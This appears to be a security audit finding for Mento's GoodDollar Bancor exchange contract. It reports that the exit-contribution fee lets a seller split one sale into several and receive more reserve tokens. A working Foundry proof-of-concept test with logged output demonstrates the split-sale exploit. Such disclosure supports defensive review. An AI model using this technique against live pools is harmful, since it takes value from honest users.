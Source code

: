 Silly Mulberry Chinchilla

High

# A malicious user can obtain more reserve tokens by selling GoodDollar multiple times rather than selling it all at once.

### Summary

A malicious user can obtain more reserve tokens by selling GoodDollar multiple times rather than selling it all at once.

### Root Cause

https://github.com/sherlock-audit/2024-10-mento-update/blob/098b17fb32d294145a7f000d96917d13db8756cc/mento-core/contracts/goodDollar/BancorExchangeProvider.sol#L324
```javascript
 function _getScaledAmountOut(
    PoolExchange memory exchange,
    address tokenIn,
    address tokenOut,
    uint256 scaledAmountIn
  ) internal view verifyExchangeTokens(tokenIn, tokenOut, exchange) returns (uint256 scaledAmountOut) {
    if (tokenIn == exchange.reserveAsset) {
      scaledAmountOut = purchaseTargetAmount(
        exchange.tokenSupply,
        exchange.reserveBalance,
        exchange.reserveRatio,
        scaledAmountIn
      );
    } else {
      scaledAmountOut = saleTargetAmount(
        exchange.tokenSupply,
        exchange.reserveBalance,
        exchange.reserveRatio,
        scaledAmountIn
      );
      // apply exit contribution
@>>      scaledAmountOut = (scaledAmountOut * (MAX_WEIGHT - exchange.exitContribution)) / MAX_WEIGHT;
    }
  }

```
Due to the effect of exitContribution, the price curve becomes discontinuous, allowing malicious users to exploit this.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Split the GoodDollar to be sold into multiple sales.

### Impact

Malicious users can obtain more reserve tokens, causing honest users to incur losses.

### PoC

```javascript
contract GoodDollarExchangeProviderTest_compareSellTwoTime is GoodDollarExchangeProviderTest {
  GoodDollarExchangeProvider exchangeProvider;
  bytes32 exchangeId;
  uint256 reserveInterest;

  function setUp() public override {
    super.setUp();
    poolExchange = IBancorExchangeProvider.PoolExchange({
      reserveAsset: address(reserveToken),
      tokenAddress: address(token),
      tokenSupply: 7_00_000 * 1e18,
      reserveBalance: 200_000 * 1e18,
      reserveRatio: 1e8 * 0.28571428,
      exitContribution: 1e8 * 0.1
    });
    exchangeProvider = initializeGoodDollarExchangeProvider();
    vm.prank(avatarAddress);
    exchangeId = exchangeProvider.createExchange(poolExchange);
  }

function test_compare_sell_two_times_swapIn() public {
  
    uint256 amountIn = 10000*1e18; //

    uint256 amountOut_one = exchangeProvider.getAmountOut(exchangeId,address(token), address(reserveToken),  amountIn*2 );
    

    vm.prank(brokerAddress);
    uint256 out_first = exchangeProvider.swapIn(exchangeId,address(token),address(reserveToken),  amountIn );
    vm.prank(brokerAddress);
    uint256 out_second = exchangeProvider.swapIn(exchangeId, address(token),address(reserveToken), amountIn );

    assertGt(out_first+out_second, amountOut_one);

    console2.log("amountout one time is", amountOut_one);
    console2.log("amountout two time is", out_first+out_second);
    
  }
}
```

Add above code in  file `test/unit/goodDollar/GoodDollarExchangeProvider.t.sol`, then run `forge test --mt test_compare_sell_two_times_swapIn -vv `
then will get:
```bash
Ran 1 test for test/unit/goodDollar/GoodDollarExchangeProvider.t.sol:GoodDollarExchangeProviderTest_compareSellTwoTime
[PASS] test_compare_sell_two_times_swapIn() (gas: 166768)
Logs:
  amountout one time is 17366293967395736536203
  amountout two time is 17410330245249691351610

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.16ms (714.04µs CPU time)
```
It can be seen that selling in two transactions yields more reserve tokens. If split into even more transactions, even more reserve tokens can be obtained.

### Mitigation

The penalty fees are stored separately to be allocated to UBI receivers.